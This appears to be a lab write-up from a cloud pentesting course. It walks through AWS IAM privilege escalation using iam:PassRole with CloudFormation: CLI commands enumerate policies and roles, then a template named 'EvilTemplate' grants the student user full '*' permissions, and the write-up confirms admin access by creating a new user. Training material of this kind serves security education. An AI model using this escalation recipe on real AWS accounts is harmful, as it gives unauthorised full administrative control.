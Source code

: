 ### Pass Role : CloudFormation

List AWS managed policies attached to the user and try to create a user.
```

aws iam list-attached-user-policies --user-name student --profile PTAcademyJllerena
aws iam list-user-policies --user-name student --profile PTAcademyJllerena
aws iam create-user --user-name Bob --profile PTAcademyJllerena

```

Check the policy permissions and details. `aws iam get-user-policy --user-name student --policy-name terraform-20230312061123165200000001 --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/224528133-2890d298-7c22-4515-9da6-88601bb81feb.png)

List role on AWS account which can be passed to CloudFormation service `aws iam list-roles --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/224528240-63cd8c63-2790-4d56-bd90-5da567ac4805.png)
![image](https://user-images.githubusercontent.com/46797181/224528273-bc25821f-d474-46a5-800a-f23c3d3b6c07.png)

Check lab12CFDeployRole role details.
```
aws iam list-role-policies --role-name lab12CFDeployRole --profile PTAcademyJllerena
aws iam get-role-policy --role-name lab12CFDeployRole --policy-name terraform-20230312061123641100000003 --profile PTAcademyJllerena
```
![image](https://user-images.githubusercontent.com/46797181/224528385-2e9392b2-9ab1-4f97-b70b-dfe542ec55f3.png)

Create a JSON file with the following content
```
{
"Resources" : {
 "EvilTemplate" : {
  "Type" : "AWS::IAM::Policy",
  "Properties" : {
   "PolicyName" : "admin_policy",
   "PolicyDocument" : {
    "Version" : "2012-10-17",
    "Statement" : [
    {
      "Effect" : "Allow",
      "Action" : "*",
      "Resource" : "*"
    }
   ]
 },
   "Users" : [
   "student"
    ]
   }
  }
 }
}
```
Create a new cloudformation stack on the AWS account with help of the created JSON file. `aws cloudformation create-stack --stack-name ad-stack --template-body file://jll.json --capabilities CAPABILITY_NAMED_IAM --role-arn arn:aws:iam::013566348973:role/lab12CFDeployRole --profile PTAcademyJllerena`

Check the stack information and check the stack execution event status. 
```
aws cloudformation describe-stacks --stack-name ad-stack --profile PTAcademyJllerena
aws cloudformation describe-stack-events --stack-name ad-stack --profile PTAcademyJllerena
```
![image](https://user-images.githubusercontent.com/46797181/224528654-35f72195-d2d0-4f6e-9289-ff29ab7d1bd2.png)

Listing user policies will show that student user has admin policies `aws iam list-user-policies --user-name student --profile PTAcademyJllerena`

Getting the details of admin policy will show that it has full permissions and now is possible to create a new user 

```
aws iam get-user-policy --user-name student --policy-name admin_policy --profile PTAcademyJllerena
aws iam create-user --user-name jllerena --profile PTAcademyJllerena
```
![image](https://user-images.githubusercontent.com/46797181/224528867-76c113d6-6120-469e-9db3-d84095790ab6.png)

Privilege escalation has been achieved 
